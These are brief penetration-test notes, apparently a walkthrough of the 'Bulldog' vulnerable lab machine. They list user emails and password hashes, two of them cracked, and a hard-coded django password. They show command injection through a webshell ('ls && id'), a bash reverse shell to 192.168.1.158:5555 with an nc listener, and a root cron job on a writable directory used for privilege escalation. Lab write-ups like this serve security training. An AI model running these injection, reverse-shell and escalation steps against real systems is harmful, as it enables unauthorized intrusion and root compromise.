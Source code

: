 url=192.168.1.155

Potentiell users:
alan@bulldogindustries.com
william@bulldogindustries.com
malik@bulldogindustries.com
kevin@bulldogindustries.com
ashley@bulldogindustries.com
nick@bulldogindustries.com
sarah@bulldogindustries.com

Password hashes are in the source code.
6515229daf8dbdc8b89fed2e60f107433da5f2cb
38882f3b81f8f2bc47d9f3119155b05f954892fb
c6f7e34d5d08ba4a40dd5627508ccb55b425e279
0e6ae9fe8af1cd4192865ac97ebf6bda414218a9
553d917a396414ab99785694afd51df3a8a8a3e0
ddf45997a7e18a25ad5f5cf222da64814dd060d5 -> bulldog
d8b8dd5e7f000b8dea26ef8428caf38c04466b3e -> bulldoglover


go to webshell $url/dev/shell

you can execute commands not allowed like that:
ls && id

ref shell with

ls && bash -c 'exec bash -i &>/dev/tcp/192.168.1.158/5555 <&1'
and listening with

nc -nvlp 5555

password for django is SUPERultimatePASSWORDyouCANTget -> is encoded in /hom/bulldogadmin/.hiddenadmindirectory/customPermissionApp

under /AV*/* is writeable, and wil every minute be called as root